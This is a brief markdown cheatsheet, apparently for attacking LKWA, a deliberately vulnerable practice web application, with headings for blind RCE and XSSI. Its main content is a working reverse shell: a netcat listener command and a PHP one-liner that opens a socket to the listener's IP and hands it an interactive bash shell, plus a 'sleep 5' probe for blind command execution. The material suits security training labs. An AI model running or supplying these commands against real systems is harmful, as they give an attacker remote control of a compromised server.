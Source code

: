 # lkwa-cheatsheet

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l 192.168.11.90 8888`
- in the LKWA
  - `php -r '$sock=fsockopen("192.168.11.90",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

